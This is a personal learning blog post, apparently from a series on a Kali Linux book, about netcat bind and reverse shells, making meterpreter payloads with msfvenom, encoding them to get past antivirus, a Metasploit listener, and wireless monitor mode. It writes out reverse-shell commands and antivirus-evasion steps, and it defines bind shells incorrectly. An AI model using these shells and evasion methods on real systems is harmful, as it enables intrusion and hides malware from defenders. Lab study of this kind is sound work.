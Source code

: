 ```yaml
---
title: "Part 5 Understanding Reverse and Binding Shell"
date: 2024-05-16T09:09:02Z
draft: false
categories: ["Walkthrough"]
tags: ["Networking", "Shells"]
series: ["Ultimate-Kali-Linux-Book"]
series_order: 5
---
```


Hey it's me again  , I know you've been missing me and I have to same to you as well. Time has changed in my life for the better, I've met the competitive hacking team at another close by University and would love to learn from them as they're seniors in the field of CTF. I want to be by their side and learn from them to grow as a person and a professional penetration tester.

I've also found a job as an assistant at a college which has amazing architecture, truly wonderful to look at. I will use the funds to help me with travels for Uni, lunch and future projects that you might see on this blog so stay tuned. (^・ω・^ )

Anyways, enough of a life update lets talk Networking and Shells! I will be exploring **Netcat** to create connections between my Kali machine and a victim Windows machine. Will also be going over **Anti-malware evasion techniques** to reduce Virustotal scores when scanning payloads created using scripts. And finally test out my wireless adapter that I got for cheap for packet injection and Monitor mode compatibility with **Aireplay-ng**. 

This ones a short one guys so I'll give it my best, I know I'm only using scripts and pre-made tools yet and not reversing engineering yet but put a bit of trust in me. I have a small flame inside of me, waiting for small chips of wood to be thrown inside to grow bigger into a roaring flame to not only light up my path in dark times but also for others I care about around me.

## 1. Fundamentals of Bind and Reverse Shells
A **reverse shell** is a one way connection from the victims computer to an attackers where they would be able to perform remote code execution or monitor for the victims behaviour, keystrokes, screen sharing and more.

A **binding shell** uses inbound firewall rules meaning that the connection originates from the victim -> attacker.

### 1.2 Creating a Reverse & Binding Shell with Netcat
There is a Windows version of Netcat on Kali at this directory `/usr/share/windows-binaries` which will be uploaded to the victims computer which when executed will open the shell. 

1. Get the file onto the victims machine, for this example we will be connected on the same network and I will be using a Python server to transfer, `cd` into windows-binaries and execute `python3 -m http.server 8080`
2. On victims machine in a browser: `<kaliIP>:8080`
![Python-server-nc.exe](<Python-server-nc.exe.png>)
3. Click on `nc.exe` as the victim and close Python web server 
4. Execute the following in a terminal on kali `nc -nlvp 1234` on bob's `nc -nv <kaliIP> 1234 -e cmd.exe`
5. To create a bind shell on kali `nc -nlvp 1234 -e /bin/bash` and on bob's `nc -nv <kaliIP> 1234`, this will allow bob to send commands to kali

ik this above isn't what I've talked about as I've lost the gif for Netcat but here is a payload created by MSF using vnc.exe ^^

## 2. Anti-malware Evasion Techniques
Most Anti malware work in 3 main categories:
- **Signature-base detection:** Anti-malware software will use a database of known malicious code and compare it to scans
- **Behavioural-based detection:** This is where the actions taken by malware is monitored by being placed in a Virtual environment for changes in the system 
- **Heuristic-based:** This is where the anti-malware software uses rules and algorithms to determine if malware has been detected

### 2.1 Encoding Payloads with MSFvenom
1. Using the reverse shell from the Netcat shell executable I will be using MSFvenom which allows for custom payload creation via scripts.
```bash
msfvenom -h                # Help menu
msfvenom --list payloads   # Available Payload list
# Create first payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload.exe
```
![msfvenom-payload-1](<msfvenom-payload-1.png>)
2. Putting the `payload.exe` file into https://www.virustotal.com will give out these detection ratings:
![msfvenom-virtustotal-payload-1](<msfvenom-virtustotal-payload-1.png>)
{{< alert icon="triangle-exclamation" cardColor="#fcf0e8" textColor="#eb974c" iconColor="#eb974c" >}}
Virustotal and other mainstream web scanners will distribute the hash of the payload:
{{< /alert >}}
A way to combat my malware being known is by using a no distribution scanner.
3. Using the highest rated encoder and iterating the encoding 9 times:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload2.exe -e x86/shikata_ga_nai -i 9
```
![msfvenom-virtustotal-payload-2](<msfvenom-virtustotal-payload-2.png>)
Doesn't even lower it by much 😭😭

4. Giving it a executable to encode with the template to mask out anti-malware signature detection
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe -o payload2.exe -e x86/shikata_ga_nai -i 9 -x /etc/share/windows-binaries/whoami.exe
```

### 2.2 Using Shellter to reduce detection
- Go through the [Wine installation guide](https://wiki.winehq.org/Download) with `wine32` and install Shellter with `sudo apt install shellter`

![Shellter-Encoding-Demo](/images/Shellter-Encoding-Demo.gif)

![Shellter-virustotal-payload-1](<Shellter-virustotal-payload-1.png>)

### 2.3 Using MSF to Send a Reverse Shell Attack
1. Will need to transfer file same method as transferring ncat in part 1.2
2. Will be using metasploitable to listen to the payload 
```bash
$ msfconsole
msf6 > use exploit/multi/handler
msf6 (multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 (multi/handler) > set LHOST <attacker IP>
msf6 (multi/handler) > set AutoRunScript post/windows/manage/migrate
msf6 (multi/handler) > exploit
```

![Reverse-shell-demo](/images/Reverse-shell-demo.gif)
(Right-click > Open Image in New Tab)
## 3. Wireless Adaptor Setup
For the final part of this section I will be testing out my wireless adapter which was bought off Aliexpress a long time ago and just resurfaced for this which I'm happy about. 

![Wireless adapter](Wireless-adapter.jpg)
(Right-click > Open Image in New Tab)

### 3.1 Different types of Adaptor Modes
There are several modes available for a network adaptor to switch to which all have their separate purposes:
- **Managed mode:** The default type which will allow connections to other AP
- **Monitor mode:** This mode will allow for wireless network scanning and packet injection 
- **Repeater mode:** Echo's a WiFi connection like an extender
- **Master mode:** Allow Linux-based system to operate as APs' 

### 3.2 Changing between Managed and Monitor Mode
There are two main methods to enable monitor and switching back to managed mode: 
- **Manually:** 
```
$ ifconfig wlan0 down
$ iwconfig mode monitor wlan0 
$ ifconfig wlan0 up
```
- **Using airmon-ng:** 
```
$ airmon-ng check kill 
$ airmon-ng start wlan0 
$ airmon-ng stop wlan0
```

### 3.3 Testing for Packet Injection Compatibility
Once in monitor mode I can see if the adaptor has packet injection capabilities with `aireplay-ng -9 wlan0`

![packet-injection-testing](<packet-injection-testing.png>)

Well this pretty much covers everything for the fifth part of ‘The Ultimate Kali Linux Book’ by Glen D. Singh. This was a short one but I learned a bit on the different shell types, using encoders to mask out known exploits by anti-malware software and testing out my wireless adapter for later testing. Glad you had a good read for this one, hope you're doing OK wherever you are. Bye. {{< responsive-img src="Cat-with-heart-excited.gif" alt="alt text" width="30px" height="30px" >}}
